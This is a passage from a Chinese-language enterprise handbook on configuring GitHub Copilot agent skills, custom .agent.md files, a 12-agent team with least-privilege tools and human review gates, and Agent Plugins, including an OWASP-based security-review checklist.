- 產出 Migration Plan 後，**須經人工核准才可進入自動化變更階段**
- 不可一次變更全部模組，必須分階段、每階段可獨立驗證與回滾
````

### 8.10 Skill 4：Security Review

> ⚠️ 建議架構——涵蓋 OWASP Top 10 相關檢查面向。

**`.github/skills/security-review/SKILL.md`**：

```yaml
---
name: security-review
description: >-
  Security review checklist covering OWASP Top 10 risks (SQL injection, XSS,
  CSRF, auth/authz issues, secret leakage, dependency vulnerabilities). Use
  this when asked to perform a security review of code changes.
allowed-tools: read, search
---

# Security Review Skill

## 檢查面向

| 面向 | 檢查重點 |
|---|---|
| SQL Injection | 是否使用參數化查詢／PreparedStatement，禁止字串拼接 SQL |
| XSS | 前端輸出是否經過適當跳脫；Vue 是否有不當使用 `v-html` |
| CSRF | 狀態變更 API 是否有 CSRF Token 或等效防護 |
| Authentication | 密碼儲存是否使用適當雜湊演算法，Session 管理是否安全 |
| Authorization | 是否每個 Endpoint 都有明確的權限檢查，避免 IDOR |
| Secret leakage | 程式碼／設定檔／Log 是否含硬編碼密碼、API Key |
| Dependency vulnerabilities | 依賴版本是否有已知 CVE |
| Secure configuration | 預設設定是否安全（例如生產環境是否關閉 debug/actuator 端點） |

## 輸出格式
依風險等級（Critical／High／Medium／Low）分類列出所有發現，每項須包含：檔案位置、風險說明、修復建議。**不可**只給「看起來有風險」的模糊描述，必須具體指出程式碼位置與修復方式。

## 重要限制
本 Skill 僅提出審查意見，**不可自行修改程式碼**，修復須由開發者確認後另行提交。
```

### 8.11 Skill 與客製化檔案的品質評測：Chat Customizations Evaluations 與 Waza

企業導入 Skill 一段時間後，最大的隱形成本不是「寫不出來」，而是**「寫出來的規則彼此矛盾、語意模糊、認知負荷過重，但沒有人發現」**。2026-08-28 複查 VS Code 官方文件發現，官方已針對這個問題推出專用工具（Preview）。

#### Chat Customizations Evaluations 擴充套件（Preview）

| 項目 | 內容 |
|---|---|
| 識別碼 | `ms-vscode.vscode-chat-customizations-evaluations`（**獨立發布，需另行安裝**） |
| 支援檔案 | `SKILL.md`、`*.agent.md`、`*.instructions.md`、`*.prompt.md` |
| 呈現方式 | 診斷結果出現在 **Problems 面板**；可用 **Implement Suggestions** 一鍵套用修正；亦可用 `/analyze-prompt` slash command 在 Chat 中取得摘要 |

官方列出的偵測面向（可直接抄成企業的客製化資源 Code Review 檢查表）：

| 偵測面向 | 說明 | 企業常見案例 |
|---|---|---|
| 邏輯／行為／格式矛盾 | 同一份檔案內前後規則互相牴觸 | 前段寫「一律使用 Constructor Injection」，後段範例卻用 `@Autowired` 欄位注入 |
| 語意模糊 | 指示不夠明確，並提供改寫建議 | 「請寫出高品質的測試」→ 未定義涵蓋率門檻與斷言風格 |
| 人格特質衝突與語氣漂移 | Agent persona 前後不一致 | 前段要求「簡潔、只給結論」，後段又要求「逐步解釋推理過程」 |
| 認知負荷過重 | 條件式巢狀過深 | 五層 if/else 的判斷規則，模型實務上難以穩定遵循 |
| 意圖涵蓋缺口與缺少錯誤路徑 | 只寫了 happy path | 只定義「測試通過怎麼做」，沒定義「測試失敗怎麼做」 |
| 與被連結檔案衝突 | 檔案間引用彼此矛盾 | `.agent.md` 引用的 Skill 規則與 `copilot-instructions.md` 相反 |

#### Waza 評測框架

針對 Skill，該擴充套件另整合了微軟開源的評測框架 **Waza**（`github.com/microsoft/waza`），提供以下命令：

| 命令 | 用途 |
|---|---|
| `Download Waza Binary` | 下載評測執行檔 |
| `Create Waza Eval Scaffold` | 為 Skill 建立評測鷹架 |
| `Run Waza Evaluation` | 實際執行評測 |
| `Open Analysis and Fix User Guide` | 開啟分析與修正指南 |

> ⚠️ **企業實務建議（建議架構）**：把「Skill／Agent 檔案必須通過 Chat Customizations Evaluations 零診斷」列為第 31 章 Quality Gate 的一道關卡，並在 CI 上以第 2.8 節提到的 schema 驗證作為第二道防線。兩者分工是：schema 驗證管**格式正確性**，Evaluations 管**語意品質**，缺一不可。需注意此擴充套件目前為 Preview，企業標準文件應註明版本與可能變動。

### Scenario

某團隊把 Reverse Engineering Skill 的 `description` 寫得太模糊（例如只寫「分析程式碼」），結果 Copilot 在許多不相關的任務中都誤判為相關而載入此 Skill，浪費 context 且干擾正常開發建議。**修正**：把 `description` 寫得更精確、包含「Use this when...」的明確觸發情境描述（如 8.8 範例），大幅降低誤觸發率。

### AI Prompt 範例

```text
角色：你是資深 Software Architect，任務是設計一個新的 Agent Skill。

情境：我們需要一個「API Design Review」Skill，用來檢查新增/修改的
REST API 是否符合企業 OpenAPI 規範與版本管理策略。

請依照 GitHub Copilot 官方 SKILL.md 格式（name/description/license/
allowed-tools frontmatter），產出：
1. 完整的 SKILL.md 內容
2. description 欄位需精確描述觸發情境，避免誤觸發
3. 列出建議的 allowed-tools 範圍（採最小權限原則）
```

### 本章 Checklist

- [ ] 已理解 Agent Skills 是官方 GA 功能，且與 Claude Code `.claude/skills` 互通
- [ ] 每個 Skill 的 `description` 都寫明確的觸發情境，避免誤觸發
- [ ] 敏感／破壞性 Skill 已考慮設定 `disable-model-invocation: true`
- [ ] 已評估導入 Chat Customizations Evaluations（Preview）作為 Skill 語意品質檢查（8.11）
- [ ] 已建立至少一個企業版 Skill 並在沙盒環境驗證載入行為

---

## 9. Custom Agents 深入教學與企業 Agent Team

### 9.1 從 `.chatmode.md` 到 `.agent.md`（重要遷移段落）

VS Code 官方原文明確說明這是「更名」而非「新功能」：

> "Custom agents were previously known as custom chat modes. The functionality remains the same, but the terminology has been updated to better reflect their purpose in customizing AI behavior for specific tasks."

遷移指引原文：

> "If you have existing `.chatmode.md` files, rename them to `.agent.md` to convert them to the new custom agent format and place them in the appropriate location to continue using them."

> ⚠️ 本手冊全文一律使用 **Custom Agents／`.agent.md`**，不使用已過時的「custom chat mode／`.chatmode.md`」說法。若團隊現有專案還留著 `.chatmode.md` 檔案，直接改副檔名即可沿用，不需要重寫內容。

### 9.2 `.agent.md` 完整 Frontmatter 欄位

| 欄位 | 必要 | 說明 |
|---|---|---|
| `description` | **是** | Agent 的簡短描述；awesome-copilot 貢獻規範要求**以單引號包住** |
| `name` | 否（建議） | 顯示名稱；若省略則以檔名為準。**awesome-copilot 要求必須是人類可讀的名稱**（如 `Address Comments`），而非檔名式的 `address-comments` |
| `argument-hint` | 否 | 輸入框提示文字 |
| `tools` | 否（建議） | 此 Agent 可使用的工具集；**Prompt file 的 `tools` 優先於 Custom Agent 的 `tools`** |
| `agents` | 否 | 可交辦的子 Agent（`*` = 全部、`[]` = 無） |
| `model` | 否（強烈建議） | 指定模型，可為字串或優先序陣列；awesome-copilot 強烈建議填寫以確保行為一致 |
| `user-invocable` | 否 | 是否可被使用者手動呼叫（預設 `true`） |
| `disable-model-invocation` | 否 | 是否停用 AI 自動調用（預設 `false`） |
| `infer` | 否 | **已廊棄（Deprecated）**，功能已被 `user-invocable` 與 `disable-model-invocation` 取代；新專案不要再使用 |
| `target` | 否 | 執行環境，`vscode` 或 `github-copilot` |
| `mcp-servers` | 否 | 此 Agent 綁定的 MCP Server 設定；**僅在 `target: github-copilot` 時生效**，在 `target: vscode` 下會被忽略 |
| `handoffs` | 否 | 可交接的目標 Agent 清單，每項可含 `label`（按鈕文字）、`agent`（目標 Agent）、`prompt`（交接時帶入的提示）、`send`（是否自動送出）、`model`（交接後使用的模型） |
| `hooks` | 否 | Agent 層級的生命週期 Hook（**Preview**，需開啟 `chat.useCustomAgentHooks`） |

**本文（body）的寫法態別**：在 Agent 本文中可用 `#tool:<tool-name>` 直接引用工具（例如 `#tool:web/fetch`），也可用 Markdown 連結引用專案內的規範檔，讓 Agent 在需要時才去讀取——這是控制 Agent 本文長度、避免 context 爆量的標準做法。

### 9.3 存放位置與組織層共享

| 範圍 | 路徑或設定 |
|---|---|
| 專案（GitHub 官方） | `.github/agents/` |
| 專案（Claude 格式相容） | `.claude/agents/`（純 `.md`，frontmatter 為 `name`／`description`／`tools`（**逗號分隔字串**）／`disallowedTools`；VS Code 會自動將 Claude 工具名稱映射到對應的 VS Code 工具） |
| 個人 | `~/.copilot/agents/` |
| 自訂位置 | VS Code `chat.agentFilesLocations` 設定 |
| 組織層 | `github.copilot.chat.organizationCustomAgents.enabled`（開啟後可從組織發現共用 Custom Agents） |

> ⚠️ **Agent Host 的例外（極容易踩坑）**：Agent Host 情境下的個人層 Agent 是從 `~/.copilot/agents` 讀取，**不是** VS Code 自己的 profile 資料夾。若發現「VS Code 設定里看得到、但 Agent Host 跑起來沒有這個 Agent」，八成是這個原因。
>
> 工具：在 VS Code Chat 面板上**按右鍵 → Diagnostics**，可一次列出目前實際載入的所有 Agents、Prompts、Instructions、Skills 及其錯誤，是排查「為什麼沒生效」最快的手段（規則層除錯見第 27 章）。

### 9.3.1 Agent 的建立與管理入口（官方已實作）

| 入口 | 說明 |
|---|---|
| `/create-agent` | 在 Chat 中用自然語描述需求，由 AI 產生 `.agent.md` 鷹架 |
| `/agents` | 快速開啟 Agent 設定選單 |
| `Chat: New Custom Agent` | 命令面板建立新 Agent 檔 |
| Agent Customizations 編輯器 | 執行 `Chat: Open Customizations`（**Preview**），以表單式介面管理所有客製化資源，並可點 **Generate Agent**／**Generate Skill** |
| 從對話萊取 | 一段對話結束後要求 Copilot 「把這段流程寫成 Custom Agent」，把一次性經驗轉成可重複使用的資產 |
| `chat.subagents.allowInvocationsFromSubagents` | 控制 subagent 是否可再呼叫其他 subagent；企業建議明確設定，避免難以追蹤的多層交辦 |

### 9.4 企業 Agent Team Catalog（12 個 Agent）

> ⚠️ 建議架構——以下 12 個 Agent 為本手冊針對企業 Web Application／Legacy Modernization 情境原創設計，非 awesome-copilot 官方收錄項目。

| Agent | Role | Goal | Input | Tools | 主要 Responsibilities | Constraints | Output | Handoff | 使用時機 |
|---|---|---|---|---|---|---|---|---|---|
| `system-architect` | 系統架構師 | 定義/審查整體架構 | 需求文件、現有架構 | read, search | 架構設計、技術選型審查 | 不可直接改程式碼 | 架構決策文件 | → frontend/backend-architect | 新專案啟動、重大架構變更 |
| `frontend-architect` | 前端架構師 | Vue 3 前端架構設計 | 架構決策文件、UI 需求 | read, edit, search, terminal | 元件架構、狀態管理設計 | 遵循 `vue.instructions.md` | 前端架構文件 + 骨架程式碼 | → test-agent | 前端模組設計 |
| `backend-architect` | 後端架構師 | Spring Boot 後端架構設計 | 架構決策文件、API 需求 | read, edit, search, terminal | 分層設計、API 契約設計 | 遵循 `java.instructions.md` | 後端架構文件 + 骨架程式碼 | → database-agent, test-agent | 後端模組設計 |
| `reverse-engineering-agent` | 逆向工程專家 | 分析 Legacy 系統 | Legacy 原始碼 | read, search | 執行第 8.8 節 Skill 定義的 12 步驟分析 | **唯讀，不可修改程式碼** | Reverse Engineering Report 全套文件 | → migration-agent | Legacy 系統評估 |
| `migration-agent` | 升級遷移專家 | 執行 Framework Migration | Migration Plan | read, edit, search, terminal | 依 Migration Plan 執行變更 | 需人工核准的 Plan 才可執行 | 變更後的程式碼 + Migration Report | → test-agent, security-agent | Framework 升級 |
| `security-agent` | 資安審查專家 | 安全性審查 | 程式碼變更（diff） | read, search | 執行第 8.10 節 Skill 定義的 OWASP 檢查 | **唯讀，只能提出意見** | Security Findings 報告 | → code-review-agent | 每次重大變更前 |
| `database-agent` | 資料庫專家 | 資料庫設計與分析 | Schema、Migration 需求 | read, edit, search, terminal | Schema 設計、Migration 腳本撰寫 | 不可修改既有 migration 檔案 | Migration 腳本 + ER 圖 | → backend-architect | 資料庫變更 |
| `test-agent` | 測試專家 | 撰寫/審查測試 | 程式碼變更 | read, edit, search, terminal | JUnit 5／Vitest／Playwright 測試撰寫 | 測試須可獨立執行、不可依賴外部服務 | 測試程式碼 + 覆蓋率報告 | → code-review-agent | 每次功能開發後 |
| `code-review-agent` | 程式碼審查專家 | Code Review | 程式碼變更（diff） | read, search | 檢查程式碼品質、規範符合度 | **唯讀，只能提出意見** | Review 意見清單 | → devops-agent | 每次 PR |
| `devops-agent` | DevOps 專家 | CI/CD 與部署 | 通過審查的變更 | read, edit, search, terminal | Pipeline 設定、部署腳本 | 遵循既有 CI/CD 規範 | 部署設定變更 | → project-coordinator | 部署階段 |
| `documentation-agent` | 文件專家 | 技術文件撰寫 | 完成的功能/變更 | read, edit, search | 撰寫/更新技術文件 | 文件需與程式碼同步 | 更新後的文件 | — | 功能完成後 |
| `project-coordinator` | 專案協調者 | 統籌整體流程 | 需求/任務 | read, search | Agent 間任務分派與進度追蹤 | 不直接執行技術任務 | 任務分派紀錄 | → 依任務類型分派至各 Agent | 專案啟動與跨 Agent 協調 |

### 9.5 完整 `.agent.md` 範例

**`.github/agents/system-architect.agent.md`**：

```yaml
---
name: system-architect
description: >-
  Senior software architect for reviewing and designing system architecture.
  Use this when asked to design new architecture, review architectural
  decisions, or evaluate technical choices for this Java/Spring Boot +
  Vue 3 web application.
tools: read, search
agents: [frontend-architect, backend-architect]
model: [claude-sonnet-5, gpt-5]
target: github-copilot
---

# System Architect Agent

你是資深軟體架構師，負責本專案的整體架構決策。

## 職責
- 審查新功能是否符合 Clean Architecture 分層原則
- 評估技術選型（新增依賴、框架升級）的長期維護成本
- 在架構決策有分歧時，提出明確建議並說明取捨

## 限制
- 你**只能**閱讀與分析程式碼，**不可直接修改**任何檔案
- 涉及前端細節，交由 `frontend-architect` 處理；涉及後端細節，交由 `backend-architect` 處理
- 任何架構決策都必須附上理由，不可只給結論
```

**`.github/agents/security-agent.agent.md`**：

```yaml
---
name: security-agent
description: >-
  Security reviewer focused on OWASP Top 10 risks. Use this when asked to
  review code changes for security vulnerabilities before merge.
tools: read, search
disable-model-invocation: false
target: github-copilot
---

# Security Agent

你是資深資安工程師，依照 `.github/skills/security-review/SKILL.md` 定義的檢查面向，
審查程式碼變更。

## 職責
- 檢查 SQL Injection、XSS、CSRF、Authentication/Authorization、Secret Leakage、
  依賴漏洞等風險
- 依 Critical／High／Medium／Low 分類回報，每項須含具體檔案位置與修復建議

## 限制
- **絕對不可修改程式碼**，只能提出審查意見
- 發現 Critical 等級問題時，必須在回應開頭明確標示，不可埋在報告中間
```

**`.github/agents/project-coordinator.agent.md`**：

```yaml
---
name: project-coordinator
description: >-
  Orchestrates multi-agent workflows across the enterprise agent team. Use
  this as the entry point for complex tasks spanning architecture,
  implementation, testing, security, and deployment.
tools: read, search
agents: "*"
handoffs: [system-architect, reverse-engineering-agent, migration-agent, security-agent, code-review-agent, devops-agent]
target: github-copilot
---

# Project Coordinator Agent

你是專案協調者，負責理解使用者的高階需求，並將任務拆解、分派給對應的專業 Agent。

## 職責
- 判斷任務屬於架構設計、逆向工程、Framework Migration、安全審查、部署等哪一類
- 依第 10 章協作架構圖，決定 Agent 執行順序與 Handoff 時機
- 追蹤各 Agent 的產出是否完整，若不完整需要求補件才能進入下一階段

## 限制
- 不直接執行技術實作，只負責協調與品質關卡把關
- 任何跨 Agent 交接前，必須確認上一階段的產出已符合驗收標準
```

### 9.6 Agent Customizations 編輯器與使用者客製化遷移

2026-08-28 複查 VS Code 官方文件時，發現官方已提供一個集中管理所有客製化資源的入口，這對企業推廣「人人都會寫 Agent」大幅降低門檻。

#### Agent Customizations 編輯器（Preview）

| 特性 | 說明 |
|---|---|
| 定位 | 探索、建立、管理所有客製化資源（Instructions／Skills／Agents／Prompt files／MCP／Plugins）的單一入口，具語法標示與驗證 |
| **與 harness 綁定** | 編輯器內容**依當前選定的 agent harness 而定**；開啟前必須先在 Chat 輸入框選好 harness（見第 6.7 節），否則會看到不完整的清單 |
| 建立方式 | 可在 Overview 分頁「用 AI 產生」；或由 Command Palette 執行 `Chat: New <customization-type>` 手動建立 |
| Marketplace | MCP Server 與 Agent Plugin 可直接從編輯器內瀏覽 Marketplace 安裝 |
| Scope | **User**（跨工作區、不進版控）／**Workspace**（透過版控分享）／部分類型另支援 **Organization** |

> ⚠️ **企業導入注意（建議架構）**：「用 AI 產生客製化資源」對推廣很有幫助，但也代表**未經審查的資源會大量出現在個人 User scope**。企業標準應明訂：User scope 僅供個人實驗，任何要影響他人的資源一律必須進入 Workspace scope 並走 CODEOWNERS 審查（第 20.3 節），這條界線必須寫死。

#### 使用者層客製化的實際存放位置

這是第 6.3 節「Agent Host 例外」的完整版本，也是企業最容易踩到的一個坑：

| Harness | 使用者層客製化讀取位置 |
|---|---|
| Copilot | `~/.copilot` |
| Claude | `~/.claude` |

VS Code 官方明載，Agent Host 從**與 harness 無關的資料夾**讀取使用者層客製化，**而不是 VS Code profile 的 user data**。因此「我在 VS Code 設定裡建了個人 Agent，為什麼 Copilot harness 讀不到？」是預期行為，不是 Bug。

#### 使用者客製化遷移（Experimental）

| 項目 | 內容 |
|---|---|
| 設定 | `chat.customizations.userDataMigration.enabled` |
| 入口 | 開啟後，Agent Customizations 編輯器的 Overview 分頁會出現 **Migrate User Data Customizations** 卡片 |
| 用途 | 把既有存放在 VS Code profile 內的個人客製化，搬到 `~/.copilot`／`~/.claude` 等 harness 共用位置 |
| **重要限制** | **遷移後的檔案不會透過 Settings Sync 漫遊**——換一台機器就沒有了 |

> ⚠️ **企業實務結論（建議架構）**：由於遷移後不再隨 Settings Sync 漫遊，企業不應把重要的客製化資源留在使用者層。正確做法是**把所有具團隊價值的資源上推到 Repository 或 Plugin**（第 11-12 章），使用者層只保留個人習慣類的設定。這也順帶解決了「離職交接時個人 Agent 一起消失」的問題。

#### 疑難排解入口

當客製化資源沒有如預期生效時，官方提供的第一手診斷工具是：

- Command Palette → `Developer: Open Agent Debug Panel`
- 或 Chat 檢視右上「…」選單 → **Show Agent Debug Logs**

詳細診斷流程見第 27.2 節。

### 9.7 內建 Agent（Built-in Agents）與 Subagent 事件

> 本節為第四版新增。前三版只教「如何自建 Agent」，卻沒有讓讀者知道 **Copilot 本身已經附帶一組內建 Agent**。企業在規劃自建 Agent Team（第 9.4、10 章）之前，應先盤點內建 Agent 已覆蓋的能力，避免重複造輪。

#### 9.7.1 內建 Agent 清單（官方已實作，2026-08-31 查證）

官方 Hooks Reference 在說明 `subagentStart`／`subagentStop` 事件時，逐一列出了以下內建 Agent：

| 內建 Agent | 定位（依名稱與實務情境推定） | 會發出 Subagent 事件 |
|---|---|---|
| `general-purpose` | 通用型，處理未特別分類的委派任務 | **否（官方明訂的唯一例外）** |
| `explore` | 快速、唯讀的程式碼庫探索與問答 | 是 |
| `task` | 一般任務委派 | 是 |
| `code-review` | 程式碼審查 | 是 |
| `rubber-duck` | 小黃鴨除錯式的思路澄清 | 是 |
| `research` | 調查與資料蒐集 | 是 |
| `security-review` | 安全審查 | 是 |

使用者自訂的 Custom Agent（第 9.2、9.5 節）**一律會**發出 `subagentStart`／`subagentStop` 事件。

> ⚠️ **這個例外有實際治理影響（建議架構）**：若你依第 13.5 節的做法用 `subagentStop` 做「Subagent 輸出遮蔽」，請務必知悉：**經由 `general-purpose` 跑出來的內容不會經過這道閘門**。如果遮蔽是合規必要措施，就不能只靠 `subagentStop`，必須同時在 `postToolUse`（針對 `task` 工具）或更下層的 `permissions.deny` 上設防線。

#### 9.7.2 企業如何定位內建 Agent（建議架構）

| 情境 | 建議用內建 Agent | 建議自建 Custom Agent |
|---|---|---|
| 一次性的程式碼探索、架構問答 | ✅ `explore` | ❌ 沒必要 |
| 通用安全審查（OWASP 等一般性項目） | ✅ `security-review` 作為第一輪 | 後續再以自建 Agent 補上企業專屬規則 |
| 企業特有的編碼規範、架構限制、Handoff 流程 | ❌ 內建 Agent 不知道你的規矩 | ✅ 依第 9.4 節 Catalog 自建 |
| 需要嚴格限制工具權限（例如唯讀審查） | ❌ 內建 Agent 的 `tools` 不可自行調整 | ✅ 以 `tools` 欄位實現最小權限 |

**實務建議的導入順序**：先讓 Pilot 團隊用內建 Agent 跑一段時間，把「內建 Agent 做不好的地方」記錄下來，再以這份清單作為自建 Agent 的**需求來源**。這比一開始就直接拉出 12 個 Agent（第 9.4 節）實際很多、且能避免建了一堆沒人用的 Agent。

### Scenario

某團隊一開始讓 `security-agent` 的 `tools` 欄位誤設為 `read, edit, search, terminal`（沿用了其他 Agent 的設定範本），結果該 Agent 在某次審查中「順手」修改了程式碼，導致審查紀錄與實際變更混在一起，事後難以追溯是誰的決策。**教訓**：每個 Agent 的 `tools` 授權都必須依其職責量身設定，審查型 Agent 應嚴格限制為唯讀（`read, search`），不可圖方便沿用其他 Agent 的設定。

### AI Prompt 範例

```text
角色：你是資深 AI Agent 架構師。

任務：請幫我們的企業 Agent Team 新增一個 database-agent 的完整 .agent.md 檔案，
用於 PostgreSQL / Oracle / DB2 混合資料庫環境的 Schema 設計與 Migration 腳本撰寫。

要求：
1. 依 9.2 節的完整 frontmatter 欄位表撰寫
2. tools 欄位需符合最小權限原則（此 Agent 需要能讀寫 migration 腳本檔案）
3. 明確寫出「不可修改既有 migration 檔案」的限制
4. handoff 對象應設為 backend-architect
```

### 本章 Checklist

- [ ] 團隊已知悉 `.chatmode.md` 已更名為 `.agent.md`，並完成既有檔案遷移
- [ ] 每個企業 Agent 的 `tools` 欄位都依職責設定最小權限
- [ ] 審查型 Agent（security/code-review）已確認為唯讀，不可修改程式碼
- [ ] 已建立至少 3 個核心 Agent 並驗證 Handoff 機制運作正常
- [ ] 已明訂「User scope 僅供個人實驗、影響他人者一律進 Workspace scope 並走審查」的界線（9.6）
- [ ] 團隊已知悉使用者層客製化遷移後不隨 Settings Sync 漫遊，重要資源應上推至 Repository／Plugin（9.6）
- [ ] 已先盤點七個內建 Agent 的能力，確認自建 Agent 不是重複造輪（9.7）
- [ ] 已知悉 `general-purpose` **不發出** `subagentStart`／`subagentStop`，並已評估其對稽核與遮蔽機制的影響（9.7.1）

---

## 10. Agent Team 協作架構

> ⚠️ 本章協作架構為建議架構，示範如何組織第 9 章的 12 個 Agent 分工協作；awesome-copilot 官方並未定義固定的多 Agent 協作拓樸。

### 10.1 協作拓樸圖



### 10.2 Agent Delegation 與 Handoff

- **Delegation（指派）**：`project-coordinator` 依任務類型，透過 `.agent.md` 的 `handoffs` 欄位將任務指派給對應 Agent。
- **Handoff（交接）**：一個 Agent 完成階段性產出後，透過 `handoffs` 欄位定義的目標，將上下文與產出交給下一個 Agent，而不是讓使用者手動複製貼上。

**Handoff 訊息具體範例**（建議架構）：`system-architect` 完成架構設計後交接給 `backend-architect` 時，附帶的交接內容建議包含以下結構，而不是只丟一句「請開始實作」：

```markdown
## Handoff：system-architect → backend-architect

### 已完成
- 架構設計文件：`docs/architecture/order-module-design.md`
- 分層決策：Controller → Service → Repository → Entity（Clean Architecture）
- API 契約草案：`docs/architecture/order-api-contract.yaml`（OpenAPI 3.1）

### 待辦事項（交由 backend-architect 執行）
1. 依 API 契約草案實作 `OrderController`、`OrderService`、`OrderRepository`
2. `OrderService` 需處理「庫存不足」與「付款逾時」兩個邊界情境（詳見設計文件第 3.2 節）
3. 完成後請交接給 `test-agent` 補齊 JUnit 5 測試

### 限制與注意事項
- 資料庫 migration 檔案已由 DBA 團隊預先建立（`V12__create_order_tables.sql`），禁止修改既有 migration
- 本次不需處理前端，前端交接另由 `frontend-architect` 獨立進行
```

這種「已完成／待辦事項／限制與注意事項」三段式結構，讓下一個 Agent 不需要重新理解整個任務背景，也讓人類審查者能一眼看出交接是否完整。

### 10.3 Context Management 與 Shared Artifacts

| 機制 | 說明（建議架構） |
|---|---|
| Shared Artifacts | 各 Agent 的產出統一存放於 `docs/` 底下固定子目錄（如 `docs/architecture/`、`docs/reverse-engineering/`），下一個 Agent 讀取該目錄取得上下文，而非仰賴對話記憶 |
| Context 傳遞 | 每次 Handoff 附上「產出摘要 + 檔案清單 + 待辦事項」，避免下一個 Agent 需要重新理解整個任務背景 |

**Shared Artifact 具體格式範例**（建議架構）：以 `docs/architecture/order-module-context.json` 為例，作為多個 Agent 共同讀寫的上下文檔案：

```json
{
  "task": "order-module-implementation",
  "stage": "backend-implementation",
  "artifacts": {
    "design": "docs/architecture/order-module-design.md",
    "apiContract": "docs/architecture/order-api-contract.yaml"
  },
  "completedBy": ["system-architect"],
  "pendingFor": ["backend-architect", "test-agent"],
  "constraints": [
    "不可修改既有資料庫 migration 檔案",
    "本階段不處理前端"
  ],
  "lastUpdated": "2026-08-20T10:30:00+08:00"
}
```

每個 Agent 在完成自己的階段後，更新 `completedBy`／`pendingFor` 欄位並附上新產出的檔案路徑，讓 `project-coordinator` 與人類審查者都能透過這份檔案掌握整個任務的即時進度，不需要回頭爬梳對話紀錄。

### 10.4 Review Gates 與 Human Approval

依第 31 章 Quality Gate 定義，關鍵節點須有人工核准才能繼續：



### 10.5 Failure Recovery

| 失敗情境 | 處理方式（建議架構） |
|---|---|
| Agent 產出不完整 | `project-coordinator` 要求該 Agent 補件，不進入下一階段 |
| Agent 執行逾時或陷入循環 | 比照第 27 章 Troubleshooting「Agent 陷入循環」處理方式，人工中斷並檢視 Prompt/Tools 設定 |
| 下游 Agent 發現上游產出有誤 | 退回上游 Agent 重新產出，而非由下游 Agent 自行修正（避免職責混淆） |

### Scenario

某企業導入 Agent Team 初期，讓 `migration-agent` 產出 Migration Plan 後直接自動執行變更，未設任何人工關卡，結果一次升級誤動到不該變更的模組。加入 10.4 的 Review Gate（Migration Plan 必須人工核准才能執行）後，同類事故降為零。

### AI Prompt 範例

```text
角色：你是 project-coordinator Agent。

任務：使用者要求「重構訂單模組，改用新的付款閘道 API」。

請依 10.1 協作拓樸圖，規劃這個任務需要依序或並行交給哪些 Agent
（system-architect／backend-architect／test-agent／security-agent／
code-review-agent／devops-agent 等），並依 10.2 的三段式結構
（已完成／待辦事項／限制與注意事項）為第一個 Handoff
（交給 system-architect）草擬交接訊息。

限制：
- 明確標出哪些節點需要依 10.4 設置人工 Review Gate
- 若任務範圍不清楚（例如「新的付款閘道」規格未定），
  應先回報給使用者確認，不可自行假設規格
```

### 本章 Checklist

- [ ] 已依 10.1 拓樸圖確認團隊 Agent 之間的 Handoff 路徑
- [ ] 關鍵節點（Migration Plan 執行前、合併前）已設置人工 Review Gate
- [ ] 已建立 Shared Artifacts 存放慣例，避免 Agent 間僅依賴對話記憶傳遞上下文

---

## 11. Plugins 深入教學與企業 Plugin 範例

### 11.1 Plugin 概念（Agent Plugins 1.0）

GitHub Copilot Plugins 正式名稱為 **Agent Plugins 1.0**，於 2026-08-12 GA，是由 AWS、Anysphere、Microsoft、OpenAI、Vercel、Google 等共同支持的**跨廠商開放標準**（官方已實作）。Plugin 透過 `plugin.json` manifest 打包本機資源，可包含：Custom Agents、Skills、Hooks、MCP Server 設定、LSP Server 設定、Commands、Rules、Canvas Extensions。

> ⚠️ **Plugins 與已日落的 Copilot Extensions（GitHub App 機制）是完全不同的兩個東西**，詳見 11.2 對照表，切勿混淆。

### 11.2 Plugins vs Copilot Extensions（絕不可混寫）

| | **Copilot Plugins（Agent Plugins 1.0）** | **Copilot Extensions（GitHub App）** |
|---|---|---|
| 狀態 | ✅ GA，2026-08-12 | ❌ **已日落，2025-11-10 23:59 PST** |
| 機制 | `plugin.json` manifest 打包本機資源 | GitHub App + Marketplace |
| 可打包 | Custom Agents、Skills、Hooks、MCP Server 設定、LSP Server 設定、Commands、Rules、Canvas Extensions | — |
| 安裝 | `copilot plugin install <name>@<marketplace>` | Marketplace 安裝（已停用） |
| 分發 | `marketplace.json` 定義的 registry，可放 GitHub／其他 Git 服務／本機檔案系統 | GitHub Marketplace（已停用） |
